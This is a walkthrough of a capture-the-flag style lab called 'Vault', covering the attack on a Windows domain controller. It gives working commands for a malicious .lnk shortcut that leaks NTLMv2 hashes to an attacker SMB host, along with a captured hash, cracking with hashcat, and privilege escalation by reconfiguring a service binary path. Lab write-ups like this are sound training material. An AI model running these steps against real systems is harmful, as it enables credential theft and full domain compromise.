






Vault Lab demonstrates gaining initial access through NTLMv2 theft using a malicious .lnk attack on a writable SMB share. Due to excessive user permissions, privilege escalation on this machine can be done a number of ways. In this instance we’ll escalate privileges by abusing the **Server Operators** group.
## Recon
### Initial Scan

```bash
nmap -Pn -sC -sV -v -oA nmap 192.168.239.172
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-30 12:26:11Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.vault.offsec
| Not valid before: 2026-09-29T12:10:22
|_Not valid after:  2027-03-31T12:10:22
| rdp-ntlm-info:
|   Target_Name: VAULT
|   NetBIOS_Domain_Name: VAULT
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: vault.offsec
|   DNS_Computer_Name: DC.vault.offsec
|   DNS_Tree_Name: vault.offsec
|   Product_Version: 10.0.17763
|_  System_Time: 2026-09-30T12:26:59+00:00
|_ssl-date: 2026-09-30T12:27:19+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49808/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-09-30T12:27:04
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
```
### SMB Enumeration

Initial enumeration of the Server Message Block (SMB) service using guest authentication we'll find a writable share at `//192.168.239.172/DocumentsShare`.
```bash
$ nxc smb 192.168.239.172 -u '.' -p '' --shares
```



If a user is actively monitoring this share, we attempt to steal their NTLMv2 hash via a link bomb attack. We can create a specially crafted shortcut that points the icon location back to our attack box, so when a user opens the folder, Explorer will automatically attempt to load the icon from our SMB share. Windows automatically sends the user’s NTLM credentials or challenge-response hash, which we can capture with responder.

First, we’ll need to test our findings by uploading a small payload.

- Create a test file for upload
```bash
$ touch test
```

- Connect to share and upload
```bash
smbclient -U '.' '\\192.168.239.172\DocumentsShare'                                                        ⏎
Password for [WORKGROUP\.]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Nov 19 02:59:02 2021
  ..                                  D        0  Fri Nov 19 02:59:02 2021

		7706623 blocks of size 4096. 713486 blocks available
smb: \> put test
putting file test as \test (0.0 kB/s) (average 0.0 kB/s)
smb: \> ls
  .                                   D        0  Wed Oct  7 12:46:53 2026
  ..                                  D        0  Wed Oct  7 12:46:53 2026
  test                                A        0  Wed Oct  7 12:46:53 2026

		7706623 blocks of size 4096. 713487 blocks available
smb: \>
```
## Initial Access - Lnk Bomb

> MS-SHLLINK: Shell Link (.LNK) Binary File Format
>
> Specifies the Shell Link Binary File Format, which contains information that can be used to access another data object. The Shell Link Binary File Format is the format of Windows files with the extension "LNK".

There is a good article [here](https://www.acronis.com/en/tru/posts/using-lnk-files-in-cyberattacks/) which goes into more depth regarding the vulnerability. It’s worth a read.

We have few different options for generating a valid Windows binary shortcut. The most surefire way is to generate one in PowerShell on an available Windows host. Or we can use a Python script on our attack box, which works just as well.
### PowerShell .lnk creation

We will need to change `$lnk.TargetPath` to our attack box VPN IP, the leading `@pwn.png` is just a pointer and does not need to exist on our share itself; It simply indicates a target path. Set `$objShell.CreateShortcut` to where we would like the .lnk saved.

- PowerShell lnk code:
```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\temp\legit.lnk")
$lnk.TargetPath = "\\192.168.45.249\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
### Python .lnk creation

- [GitHub — dievus/lnkbomb: Malicious shortcut generator](https://github.com/dievus/lnkbomb)

This script is quite handy and can generate a large number of different files for linked attacks. I’ve used it outside of the scope for this write-up and have had success. I did confirm it works on this machine as well.

- Clone the git and generate .lnk file:
```bash
$ python ntlm_theft/ntlm_theft.py --generate lnk --server 192.168.45.249 --filename legit
```
### Dropping the Bomb

Once the file is ready (either method), fire up responder.
```bash
$ sudo responder -I tun0
```

Drop the malicious .lnk file directly into the share root.
```bash
smbclient -U '.' '\\192.168.228.172\DocumentsShare'
Password for [WORKGROUP\.]:
Try "help" to get a list of possible commands.
smb: \> put legit.lnk
putting file legit.lnk as \legit.lnk (16.6 kB/s) (average 16.6 kB/s)
smb: \> ls
  .                                   D        0  Wed Oct  7 12:57:02 2026
  ..                                  D        0  Wed Oct  7 12:57:02 2026
  legit.lnk                           A     2164  Wed Oct  7 12:57:02 2026
  test                                A        0  Wed Oct  7 12:46:53 2026

		7706623 blocks of size 4096. 724310 blocks available
```

Within a few seconds to a minute, the responder should capture the NTLMv2 hash for **anirudh**. If that doesn’t work, we may need to revisit our payload and attempt the drop again.
```bash
[SMB] NTLMv2-SSP Client   : 192.168.239.172
[SMB] NTLMv2-SSP Username : VAULT\anirudh
[SMB] NTLMv2-SSP Hash     : anirudh::VAULT:244c3823c6038d1a:9B2DFA0882259FBC986AC02843A12B2E:010100000000000080D0E06F5B56DD017773CBE77EA815FA0000000002000800560045004D004A0001001E00570049004E002D00540044004F005500360031005500420033003500580004003400570049004E002D00540044004F00550036003100550042003300350058002E00560045004D004A002E004C004F00430041004C0003001400560045004D004A002E004C004F00430041004C0005001400560045004D004A002E004C004F00430041004C000700080080D0E06F5B56DD010600040002000000080030003000000000000000010000000020000089AA92A8AA17227674842877BD92C0EEF101C15360BF57E99844B804AA2DA3E00A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003200340039000000000000000000
```



The users hash can be easily cracked with hashcat. We'll get the users password of `SecureHM`.
```bash
$ hashcat -m 5600 anirudh.ntml /opt/wordlists/rockyou.txt
```

```bash
Dictionary cache hit:
* Filename..: /opt/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344392

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 1472 MB (31379 MB free)

ANIRUDH::VAULT:557978670ae60ea3:456a1c0806fa3de8f542c0286664e87c:0101000000000000802a297aaf50dd0189c619e18d41adac0000000002000800450059003000560001001e00570049004e002d00420057003500330038004900360055004a003400550004003400570049004e002d00420057003500330038004900360055004a00340055002e0045005900300056002e004c004f00430041004c000300140045005900300056002e004c004f00430041004c000500140045005900300056002e004c004f00430041004c0007000800802a297aaf50dd010600040002000000080030003000000000000000010000000020000089aa92a8aa17227674842877bd92c0eef101c15360bf57e99844b804aa2da3e00a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00340035002e003200340039000000000000000000:SecureHM

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: ANIRUDH::VAULT:557978670ae60ea3:456a1c0806fa3de8f54...000000
Time.Started.....: Wed Oct  7 13:25:18 2026 (0 secs)
Time.Estimated...: Wed Oct  7 13:25:18 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: Feed (/opt/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........: 42869.0 kH/s (3.22ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 11010048/14344392 (76.76%)
Rejected.........: 0/11010048 (0.00%)
Restore.Point....: 9175040/14344392 (63.96%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: chautla -> Joytjiong1
Hardware.Mon.#01.: Temp: 35c Fan: 30% Util: 80% Core:1777MHz Mem:7301MHz Bus:4

Started: Wed Oct  7 13:25:17 2026
Stopped: Wed Oct  7 13:25:19 2026
```

Looks good. Doing access checks with netexec we'll find user has remote management permissions.
```bash
$ nxc winrm 192.168.239.172 -u anirudh -p 'SecureHM'
```



We can then connect via evil-winrm and grab the contents of local.txt.
```bash
$ evil-winrm-py -i 192.168.228.172 -u anirudh -p 'SecureHM'
```

## Privilege Escalation - Path Hijacking
### Internal Enum

On our initial enumeration we’ll find that the controlled user **anirudh** is a member of the **Server Operators** group, as well as some other dangerous privileges we could exploit to get the system. While server operators are not technically domain admins, they hold near-equivalent privileges over Active Directory domain controllers and should be treated as such.

### Server Operators Abuse

We can exploit the **Server Operators** group by perform a service binary path hijacking attack. By reconfiguring the **AppReadiness** service to execute a command, we can add **anirudh** to the local **Administrators** group.
```powershell
PS C:\Users\anirudh\Documents> sc.exe config AppReadiness binPath= "cmd.exe /c net localgroup administrators anirudh /add"
[SC] ChangeServiceConfig SUCCESS

PS C:\Users\anirudh\Documents> sc.exe start AppReadiness
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

The service reported a timeout error (1053) upon starting, the payload will execute successfully prior to the service terminating. We can do a quick group check to verify.
```powershell
PS C:\Users\anirudh\Documents> net localgroup administrators
```

We can then extract the contents of `proof.txt`.

```powershell
PS C:\Users\anirudh\Documents> whoami; ls c:\users\administrator\desktop\proof.txt
```

